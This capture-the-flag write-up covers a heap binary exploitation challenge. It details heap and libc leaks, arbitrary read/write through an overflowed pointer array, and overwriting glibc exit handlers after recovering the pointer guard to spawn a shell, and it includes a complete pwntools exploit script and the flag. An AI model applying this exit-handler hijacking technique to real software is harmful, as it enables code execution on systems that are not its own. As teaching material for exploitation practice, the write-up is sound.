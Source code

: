 # help

- Published: 12/23/2024 (#x/23 in event)
- Category: Binary exploitation
- Points: 150
- Author: Kolmus

Oh no! Santa really needs your HELP! Just as the final preparations were happening at the flag factory, one of the elfs
went rogue and deleted Santa’s entire mailing list. We’re currently looking through all the stacks and heaps of address
books as an emergency solution ... we absolutely need you to figure out how the mailing list got compromised! Hurry!

Connect using `nc ctf.csd.lol 7777`.

## Attachments

- [help](https://files.vipin.xyz/api/public/dl/aVjkuvLz/Day%2023%20-%20help/help)
- [libc.so.6](https://files.vipin.xyz/api/public/dl/gVMlV7Sp/Day%2023%20-%20help/libc.so.6)
- [ld-linux-x86-64.so.2](https://files.vipin.xyz/api/public/dl/FPHHhdd7/Day%2023%20-%20help/ld-linux-x86-64.so.2)

## Hints

**Hint 1:**

The index bounds check is only in one direction. Overwriting a pointer that you have read and write access to is very
powerful.

**Hint 2:**

Why is `/dev/null` opened just to then get closed again? If you’re having trouble getting anywhere from that, check out:
[https://blog.osiris.cyber.nyu.edu/2019/04/06/pivoting-around-memory/](https://blog.osiris.cyber.nyu.edu/2019/04/06/pivoting-around-memory/).

## Write-up

<details>
<summary>Reveal write-up</summary>

On doing a checksec on the binary we find that it has all protections enabled:

```c
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Furthermore, the libc version is 2.39 which is important to consider when exploiting.

The pseudocode of the main function is as follows:

```c
void main(void)
{
  int iVar1;
  FILE *__stream;
  void *pvVar2;
  long lVar3;
  undefined8 *puVar4;
  long in_FS_OFFSET;
  byte bVar5;
  int local_1a4;
  undefined8 local_198 [16];
  char local_118 [264];
  undefined8 local_10;

  bVar5 = 0;
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  puts("Welcome to Santa\'s Mailing List!");
  puts("Available commands: malloc/free/scanf/puts/exit");
  fflush(stdout);
  __stream = fopen("/dev/null","r");
  fclose(__stream);
  puVar4 = local_198;
  for (lVar3 = 0x10; lVar3 != 0; lVar3 = lVar3 + -1) {
    *puVar4 = 0;
    puVar4 = puVar4 + (ulong)bVar5 * -2 + 1;
  }
  local_118[0] = '\0';
  // truncated; all the bytes in local_118 are set to 0
  local_118[0xff] = '\0';
  local_1a4 = -1;
  while( true ) {
    __isoc99_scanf("%255s",local_118);
    iVar1 = strcmp(local_118,"exit");
    if (iVar1 == 0) break;
    iVar1 = strcmp(local_118,"malloc");
    if (iVar1 == 0) {
      pvVar2 = malloc(0x40);
      local_198[local_1a4 + 1] = pvVar2;
      local_1a4 = local_1a4 + 1;
    }
    else if (local_1a4 < 0) {
      puts("invalid command");
      fflush(stdout);
    }
    else {
      iVar1 = strcmp(local_118,"free");
      if (iVar1 == 0) {
        free((void *)local_198[local_1a4]);
        local_1a4 = local_1a4 + -1;
      }
      else {
        iVar1 = strcmp(local_118,"scanf");
        if (iVar1 == 0) {
          __isoc99_scanf(&DAT_00102089,local_198[local_1a4]);
        }
        else {
          iVar1 = strcmp(local_118,"puts");
          if (iVar1 == 0) {
            puts((char *)local_198[local_1a4]);
            fflush(stdout);
          }
          else {
            puts("invalid command");
            fflush(stdout);
          }
        }
      }
    }
  }
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

There are a few key observations to be made here:

Data of chunks which are malloc'd are not zeroed out, giving us free heap and libc leaks (will be elaborated on later)

We can only call scanf and puts on the last chunk we allocated since the program uses local_1a4 to track our most
recently malloc'd chunk

We can overflow local_198 with our malloc'd chunk pointers; This is because local_1a4 can increment until it is ≥ 15,
allowing us to malloc a pointer into local_198[16] and beyond.

```c
    iVar1 = strcmp(local_118,"malloc");
    if (iVar1 == 0) {
      pvVar2 = malloc(0x40);
      local_198[local_1a4 + 1] = pvVar2;
      local_1a4 = local_1a4 + 1;
    }
```

This allows us to overflow into the buffer (local_118) used for writing our commands!

Freed pointers are not cleared from memory. However, this is actually a small detail which we won't need much for our
exploit.

```c
      iVar1 = strcmp(local_118,"free");
      if (iVar1 == 0) {
        free((void *)local_198[local_1a4]);
        local_1a4 = local_1a4 + -1;
      }
```

Notice that if our malloc pointers overflow into the command buffer, when we are writing the command we can modify those
pointers as well! For example, if I have already malloc'd 18 times, then local_118[0] would have a malloc pointer and so
would local_118[1]. Then, if I input a command like b'puts\x00\x00\x00\x00\xAA\xAA\xAA\xAA\xAA\xAA\xAA\xAA', then my
command would be correctly interpreted to be puts (since my command ends with a null terminator) and the program would
attempt to read whatever is at address 0xAAAAAAAAAAAAAAAA. This means that we have an arbitrary read.

If we use a command like b'scanf\x00\x00\x00\xAA\xAA\xAA\xAA\xAA\xAA\xAA\xAA' then we could also write data into
0xAAAAAAAAAAAAAAAA . This means we also have an arbitrary write!

So what should we overwrite in order to get a shell?

Some of the popular options would include:

- Overwriting a global offset table entry, e.g. overwrite GOT entry for free to system to potentially call
  system('/bin/sh') when we free a chunk. This won't work since both libc and the binary have full RELRO enabled.

- Overwriting **malloc_hook or **free_hook. These won't work since it has been patched in this libc version.

- Overwriting the return address of main. This won't work since main doesn't return. Rather, main calls exit to exit the
  program.

Note: The challenge author's solution was actually to get a stack leak, then overwrite the return address of scanf.
However, I adopted a different solution.

It turns out that when a program exits, it calls a list of exit functions. Furthermore, the structs which contain these
exit functions are in the DATA region of libc, which is readable and writeable. Hence, if we can overwrite these exit
functions correctly to functions that can give us a shell, when the program exits we could get a shell!

Some useful resources to learn how this exploit technique works can be found here and here.

TLDR:

When exit() is called, it calls \_\_run_exit_handlers

```c
void exit (int status)
{
  __run_exit_handlers (status, &__exit_funcs, true, true);
}
__run_exit_handlers takes in a struct exit_function_list ** , then for each entry it demangles the function pointer and calls the function:
```

```c
/* Call all functions registered with `atexit' and `on_exit',
   in the reverse of the order in which they were registered
   perform stdio cleanup, and terminate program execution with STATUS.  */
void
attribute_hidden
__run_exit_handlers (int status, struct exit_function_list **listp,
       bool run_list_atexit, bool run_dtors)
{
  /* First, call the TLS destructors.  */
#ifndef SHARED
  if (&__call_tls_dtors != NULL)
#endif
    if (run_dtors)
      __call_tls_dtors ();

  /* We do it this way to handle recursive calls to exit () made by
     the functions registered with `atexit' and `on_exit'. We call
     everyone on the list and use the status value in the last
     exit (). */
  while (*listp != NULL)
    {
      struct exit_function_list *cur = *listp;

      while (cur->idx > 0)
 {
   const struct exit_function *const f =
     &cur->fns[--cur->idx];
   switch (f->flavor)
     {
       void (*atfct) (void);
       void (*onfct) (int status, void *arg);
       void (*cxafct) (void *arg, int status);

     case ef_free:
     case ef_us:
       break;
     case ef_on:
       onfct = f->func.on.fn;
#ifdef PTR_DEMANGLE
       PTR_DEMANGLE (onfct);
#endif
       onfct (status, f->func.on.arg);
       break;
     case ef_at:
       atfct = f->func.at;
#ifdef PTR_DEMANGLE
       PTR_DEMANGLE (atfct);
#endif
       atfct ();
       break;
     case ef_cxa:
       cxafct = f->func.cxa.fn;
#ifdef PTR_DEMANGLE
       PTR_DEMANGLE (cxafct);
#endif
       cxafct (f->func.cxa.arg, status);
       break;
     }
 }

      *listp = cur->next;
      if (*listp != NULL)
 /* Don't free the last element in the chain, this is the statically
    allocate element.  */
 free (cur);
    }

  if (run_list_atexit)
    RUN_HOOK (__libc_atexit, ());

  _exit (status);
}
```

The struct exit_function_list and the other relevant structs look like this:

```c
enum
{
  ef_free, /* `ef_free' MUST be zero!  */
  ef_us,
  ef_on,
  ef_at,
  ef_cxa
};

struct exit_function
  {
    /* `flavour' should be of type of the `enum' above but since we need
       this element in an atomic operation we have to use `long int'.  */
    long int flavor;
    union
      {
 void (*at) (void);
 struct
   {
     void (*fn) (int status, void *arg);
     void *arg;
   } on;
 struct
   {
     void (*fn) (void *arg, int status);
     void *arg;
     void *dso_handle;
   } cxa;
      } func;
  };
struct exit_function_list
  {
    struct exit_function_list *next;
    size_t idx;
    struct exit_function fns[32];
  };
```

There are 5 different types of exit handlers: ef_free, ef_us, ef_on, ef_at and ef_cxa.

During demangling, the following assembly in \_\_run_exit_handlers is applied:

```nasm
   0x0000000000039fe9 <+217>: ror    rdx,0x11
   0x0000000000039fed <+221>: xor    rdx,QWORD PTR fs:0x30
   0x0000000000039ff6 <+230>: call   rdx
```

Essentially, the fs register is a special register which points to the per thread data, also known as the Thread Control
Block (TCB).

At fs:0x30 is the pointer guard, which is a "secret value" used to mangle and demangle the function pointers of the exit
handlers.

Some Python code for rol, rol and encrypting is given below:

```c
rol = lambda val, r_bits, max_bits: \
    (val << r_bits%max_bits) & (2**max_bits-1) | \
    ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))

ror = lambda val, r_bits, max_bits: \
    ((val & (2**max_bits-1)) >> r_bits%max_bits) | \
    (val << (max_bits-(r_bits%max_bits)) & (2**max_bits-1))
```

# encrypt a function pointer

```py
def encrypt(v, key):
    return p64(rol(v ^ key, 0x11, 64))
```

Usually, the struct exit_function_list \*\* passed to \_\_run_exit_handlers has at least one entry in it, and the first
entry is usually the \_dl_fini function which is in ld code. Therefore to find the pointer guard value, there are 2 ways
to do so:

Leak the value from fs:0x30

Calculate the value from the address of \_dl_fini and the mangled pointer

For my solution I adopted the second approach.

First I needed to find out the location of \_\_exit_funcs (which is the struct exit_function_list \*\* ) so in GDB I can
do something like this:

![](./image1.png)

So we can see that it contains two pointers, the first of which is a pointer to the exit_function_list struct for
\_dl_fini.

![](./image2.png)

Now that I know the address of exit_function_list \* and I know that it is in a fixed position within the libc data
section, I can calculate its offset.

Alternatively if I wanted to find the position of fs:0x30 I could also have done something like this:

![](./image3.png)

Notes:

TCB region is always located directly above libc

The 0x6b66c574a13346de we see is the pointer guard value

Note that the TCB is readable and writeable, and the exit function structs are also readable and writeable. Therefore
for exploitation, we can either:

Rewrite pointer guard value to a value of our choosing and change the exit_function_list struct for \_dl_fini (arb
write + arb write), or

Read pointer guard value, then change exit_function_list struct for \_dl_fini (arb read + arb write)

I also went with the second approach for my solution.

A brief outline of my solution is written below, including all the leaks I got, how I got them, and how I finally
exploited the program:

Malloc, free, malloc then read a chunk to get a heap leak (this is because the heap metadata is not cleared when
mallocing a chunk)

```py
r.sendlineafter(b"exit\n",b"malloc")
r.sendline(b"free")
r.sendline(b"malloc")
r.sendline(b"puts")
heap_leak = u64(r.recv(5) + b"\x00\x00\x00")
heap_base = (heap_leak << 12) - 0x1000
log.info(f"heap base: {hex(heap_base)}")
```

Malloc a bunch of times so our malloc pointers overflow into the command buffer

```py
for _ in range(20):
    r.sendline(b"malloc")
```

At this point the program has malloc'd 21 times, the last 5 of which overflow into the command buffer.

Since the program forces all chunks malloc'd to be of size 0x40, we cannot directly free a chunk into the unsorted bin
and get a libc leak. However, I used arbitrary write to change the size field of a chunk to be a large value such as
0x800 then freed it. The freed chunk would go into the unsorted bin. I then used the arbitrary read to read its
metadata, which points to main arena in libc which is at a constant offset, thereby getting the libc leak.

Note:

To prevent coalescing of this big chunk with the wilderness, and to prevent double free or corruptions from being
detected, I had 1 fake 0x800 size chunk followed by 2 fake 0x30 size chunks. I free the first 0x30 chunk to act as a
guard chunk to prevent the 0x800 chunk from coalescing, then free the 0x800 chunk. The third chunk is necessary to
prevent corruption errors.

```py
target = heap_base + 0x1ed8
target_subs_chk = target + 0x800
target_subs_chk2 = target_subs_chk + 0x30
log.info(f"target: {hex(target)}")
# arbitrary write time!
r.sendline(b"scanf\x00\x00\x00" + p64(0) * 3 + p64(target))
r.sendline(p64(0x801))
r.sendline(b"scanf\x00\x00\x00" + p64(0) * 3 + p64(target_subs_chk))
r.sendline(p64(0x31))
r.sendline(b"scanf\x00\x00\x00" + p64(0) * 3 + p64(target_subs_chk2))
r.sendline(p64(0x31))
# free a guard chunk
r.sendline(b"free\x00\x00\x00\x00" + p64(0) * 3 + p64(target_subs_chk + 8))
r.sendline(b"free\x00\x00\x00\x00" + p64(0) * 2 + p64(target + 8))
r.sendline(b"puts\x00\x00\x00\x00" + p64(0) + p64(target + 8))
# now we read from the unsorted bin chunk
r.recvuntil(b"\n")
main_arena_leak = u64(r.recv(6) + b"\x00\x00")
libc.address = main_arena_leak - (0x00007f3910b14b20 - 0x7f3910911000)
log.info(f"libc address: {hex(libc.address)}")
```

Since I have a libc leak, and ld is adjacent to libc, and \_dl_fini is at a constant offset in ld, I know the address of
\_dl_fini. Furthermore, since the exit_function_list struct of \_dl_fini is at a constant offset in libc, I also know
its address. Thus I know both the unmangled and mangled values of the \_dl_fini function pointer and can calculate the
pointer guard value:

```py
_dl_fini_offset_from_ld = 0x7f1648c11380 - 0x7f1648c0c000
ld_offset_from_libc = 0x7f1648c0c000 - 0x7f16489f8000
_dl_fini = libc.address + ld_offset_from_libc + _dl_fini_offset_from_ld # + 0x2000 # different offset btw libc & ld on remote
log.info(f"_dl_fini at: {hex(_dl_fini)}")
exit_fn_list = libc.address + (0x00007f1648bfcfc0 - 0x7f16489f8000)
log.info(f"exit function list at: {hex(exit_fn_list)}")
r.sendlineafter(b"\n", b"puts\x00\x00\x00\x00" + p64(0) + p64(exit_fn_list + 0x18))
mangled_dl_fini_ptr = u64(r.recv(8))
# obtain the key
key = ror(mangled_dl_fini_ptr, 0x11, 64) ^ _dl_fini
log.info(f"key is: {hex(key)}")
```

Note: For some reason, on remote the offset between ld and libc is 0x2000 more than the local offset. I got this value
by bruteforcing.

Now that I have the key (aka pointer guard) value, I can mangle a function pointer to system in libc. I then overwrite
the exit_function_list struct for \_dl_fini with my own. In order for it to run system("/bin/sh") on exit, the exit
function list has to be of type ex_cfa (which is represented by 4 in the enum). We keep the id field the same (which is
1), and we add a pointer to /bin/sh in libc as \*arg.

```py
# onexit_fun is the fake struct
onexit_fun = p64(0) + p64(1) + p64(4) + encrypt(libc.sym['system'], key) + p64(next(libc.search(b"/bin/sh"))) + p64(0)
r.sendlineafter(b"\n", b"scanf\x00\x00\x00" + p64(0) + p64(exit_fn_list))
r.sendline(onexit_fun)
```

Finally, we can exit the program. On exiting, it will run system("/bin/sh") and give us shell!

Below is my full exploit code:

```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./help_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
"""
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
"""
def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("ctf.csd.lol", 7777)

    return r

EXIT_FUNCS_OFFSET = 0x204fa8
# context.log_level = 'debug'
rol = lambda val, r_bits, max_bits: \
    (val << r_bits%max_bits) & (2**max_bits-1) | \
    ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))

ror = lambda val, r_bits, max_bits: \
    ((val & (2**max_bits-1)) >> r_bits%max_bits) | \
    (val << (max_bits-(r_bits%max_bits)) & (2**max_bits-1))

# encrypt a function pointer
def encrypt(v, key):
    return p64(rol(v ^ key, 0x11, 64))



def main():
    r = conn()
    r.sendlineafter(b"exit\n",b"malloc")
    r.sendline(b"free")
    r.sendline(b"malloc")
    r.sendline(b"puts")
    heap_leak = u64(r.recv(5) + b"\x00\x00\x00")
    heap_base = (heap_leak << 12) - 0x1000
    log.info(f"heap base: {hex(heap_base)}")

    for _ in range(20):
        r.sendline(b"malloc")

    # change the size of a chunk to be a big number like 0x800, then make subsequent chunks have prev_inuse set
    target = heap_base + 0x1ed8
    target_subs_chk = target + 0x800
    target_subs_chk2 = target_subs_chk + 0x30
    log.info(f"target: {hex(target)}")
    # arbitrary write time!
    r.sendline(b"scanf\x00\x00\x00" + p64(0) * 3 + p64(target))
    r.sendline(p64(0x801))
    r.sendline(b"scanf\x00\x00\x00" + p64(0) * 3 + p64(target_subs_chk))
    r.sendline(p64(0x31))
    r.sendline(b"scanf\x00\x00\x00" + p64(0) * 3 + p64(target_subs_chk2))
    r.sendline(p64(0x31))
    # free a guard chunk
    r.sendline(b"free\x00\x00\x00\x00" + p64(0) * 3 + p64(target_subs_chk + 8))
    r.sendline(b"free\x00\x00\x00\x00" + p64(0) * 2 + p64(target + 8))
    r.sendline(b"puts\x00\x00\x00\x00" + p64(0) + p64(target + 8))
    # now we read from the unsorted bin chunk
    r.recvuntil(b"\n")
    main_arena_leak = u64(r.recv(6) + b"\x00\x00")
    libc.address = main_arena_leak - (0x00007f3910b14b20 - 0x7f3910911000)
    log.info(f"libc address: {hex(libc.address)}")
    # now we overwrite exit handlers
    # if libc base = 0x7f16489f8000, struct exit_function_list ** is at 0x7f1648bfb680
    # and struct exit_function_list * is at 0x00007f1648bfcfc0
    # exit_function_list * looks smt like
    # pwndbg> x/16gx 0x00007f1648bfcfc0
    # 0x7f1648bfcfc0: 0x0000000000000000      0x0000000000000001 <- idx
    # 0x7f1648bfcfd0: 0x0000000000000004 <- flavour      0x79adc930260324ba <- mangled ptr
    # 0x7f1648bfcfe0: 0x0000000000000000      0x0000000000000000
    _dl_fini_offset_from_ld = 0x7f1648c11380 - 0x7f1648c0c000
    ld_offset_from_libc = 0x7f1648c0c000 - 0x7f16489f8000
    _dl_fini = libc.address + ld_offset_from_libc + _dl_fini_offset_from_ld + 0x2000 # different offset btw libc & ld on remote
    log.info(f"_dl_fini at: {hex(_dl_fini)}")
    exit_fn_list = libc.address + (0x00007f1648bfcfc0 - 0x7f16489f8000)
    log.info(f"exit function list at: {hex(exit_fn_list)}")
    r.sendlineafter(b"\n", b"puts\x00\x00\x00\x00" + p64(0) + p64(exit_fn_list + 0x18))
    mangled_dl_fini_ptr = u64(r.recv(8))
    # obtain the key
    key = ror(mangled_dl_fini_ptr, 0x11, 64) ^ _dl_fini
    log.info(f"key is: {hex(key)}")
    onexit_fun = p64(0) + p64(1) + p64(4) + encrypt(libc.sym['system'], key) + p64(next(libc.search(b"/bin/sh"))) + p64(0)
    r.sendlineafter(b"\n", b"scanf\x00\x00\x00" + p64(0) + p64(exit_fn_list))
    r.sendline(onexit_fun)
    r.sendline(b"exit")
    r.interactive() # csd{Y0Ur_HeLp_15_MuCH_4PPr3CiA73d}

if __name__ == "__main__":
    main()
```

Flag: `csd{Y0Ur_HeLp_15_MuCH_4PPr3CiA73d}`

</details>

Write-up by elijah5399
